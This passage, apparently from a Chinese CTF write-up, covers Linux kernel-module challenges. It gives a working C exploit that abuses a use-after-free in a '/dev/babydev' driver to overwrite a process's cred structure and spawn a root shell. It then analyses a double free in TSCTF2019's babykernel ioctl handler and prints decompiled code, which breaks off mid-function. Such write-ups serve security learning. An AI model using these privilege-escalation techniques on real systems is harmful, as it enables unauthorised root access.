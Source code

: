 #### 编写exp

exp拿c写，cred的前28个字节改为0即可，exp如下：

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <stropts.h>
#include <sys/wait.h>
#include <sys/stat.h>

int main()
{
    int fd1 = open("/dev/babydev",2);
    int fd2 = open("/dev/babydev",2);
    ioctl(fd1,0x10001,0xa8);
    close(fd1);
    int pid = fork();
    if(pid == 0){
        char zeros[32] = {0};
        write(fd2,zeros,sizeof(zeros));
        if(getuid() == 0){
            system("/bin/sh");
        }
    }
    else if(pid > 0){
        wait(NULL);
    }
    return 0;
}
```

### TSCTF2019->babykernel

#### 程序分析

比赛的时候没做出来，半年之后过来考古233.

ioctl有几个功能：
1. cmd=`0x22B8`，往`BUY_LIST[arg3]`赋值0x123456789ABCDEF0LL
2. cmd=`0x271A`，固定分配`0xd0`的obj到`BUY_LIST[arg3]`并执行`*(_QWORD *)(BUY_LIST[arg33] + 8) = 0LL;`等赋值命令
3. cmd=`0x2766`，释放`BUY_LIST[arg3]`，这里有double free
4. cmd=`0x1A0A`，同1一样赋值`BUY_LIST[arg3]`为0xFEDCBA987654321LL

漏洞到这里已经很清楚了，bss上的全局变量释放后未清空，保护有`smap`和`smep`，调试可以看到(源码也可以直接看)cred大小恰为0xd0，所以我们释放一个obj，随后fork进程复用这个obj，在主进程再次释放此obj随即alloc到它，之前的*(obj+8)可以将uid位清零，子进程的权限提升为root。

```c
signed __int64 __fastcall tshop_ioctl(__int64 arg1, unsigned int arg2, unsigned int arg3)
{
  __int64 v3; // rbx
  _QWORD *v4; // rax
  char *v5; // rdi
  __int64 v6; // rax
  char v7; // si
  __int64 v8; // rdx
  const char *v9; // rdi
  _QWORD *v11; // rax
  _QWORD *v12; // rax

  v3 = (signed int)arg3;
  if ( arg2 == 0x22B8 )
  {
    if ( arg3 <= 0xFF && (v12 = (_QWORD *)BUY_LIST[arg3]) != 0LL )
```